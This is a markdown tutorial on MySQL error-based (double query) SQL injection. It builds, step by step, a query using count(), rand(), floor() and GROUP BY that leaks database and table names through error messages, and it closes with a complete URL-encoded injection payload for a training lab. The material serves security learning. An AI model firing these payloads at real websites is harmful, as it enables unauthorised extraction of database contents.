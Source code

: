 # Error Based (Double Query) SQL Injection

- `A double query` combining two queries into a single query and getting the information through the SQL error message from the database. 

- Union injection can not be used when the web pages fail to retrieve any results (Error, Expected Results) from the database while we inject it with a single query, Then we should use double query SQL injection technique. It is a manual injection technique to dump the data from the database.

[Reference](https://securiumsolutions.com/blog/sql-injection-by-double-query-securiumsolutions/#:~:text=A%20double%20query%20SQL%20injection,error%20message%20from%20the%20database.)


# Mysql Query for Error Based Injection

## 1. `Sub-Query` or `Double Query`

- `A subquery is a SQL query nested inside a larger query.`

- A subquery may occur in :
    - A SELECT clause
    - A FROM clause
    - A WHERE clause
The subquery can be nested inside a SELECT, INSERT, UPDATE, or DELETE statement or inside another subquery.
A subquery is usually added within the WHERE Clause of another SQL SELECT statement.


## 2. `rand()` 

- This function return random decimal number between 0 and 1.

## 3. `floor()`

- The function retrun largest inter value.(Less than or equal to a number)

## 4. `Group by`

- aggregate same values in the coulumn as single value

## 5. `count`

- Count the no. of rows that present in the database




# Theory of Error Based or Double Query Injection


1. Combine two queries into single query 
2. Use SQL_function and make application to show error message
3. dump juicy info through error message



# Example mysql_function to make application error

## 1. count()

`select count(*) from information_schema.tables;`

- display how many row in `information_schema.tables;`

## 2. rand() and floor()

`select rand();`
`select floor(rand()*2);`
`select floor(rand()*2)test;`


## 3. Double Query and Make Application Error

#### Extract Juicy info from error

`select x from y;`

#### Double Query

- `select database();`

- `select concat("::",database(),"::","CONCAT FUNCTION");`

- `select concat("::",database(),"::",floor(rand()*2));`

#### adding variable `a`

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns;`

#### `group by` with a

- `select concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`


#### use `count()` and making web application to error

`select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a;`

#### Modified query
`(select 1 from(select count(*), concat("::",database(),"::",floor(rand()*2))a from information_schema.columns group by a)b);`


#### insert this query to `,database(),` area

`(select table_name from information_schema.tables where table_schema=database() limit 0,1)`



#### lab Full Query Query (ZD-Lab,SQLI,Lesson-5)

`AND+(select+1+from(select count(*), concat("::",(select table_name from information_schema.tables where table_schema=database() limit 0,1),"::",floor(rand()*2))a from information_schema.columns group by a)b)--+`




























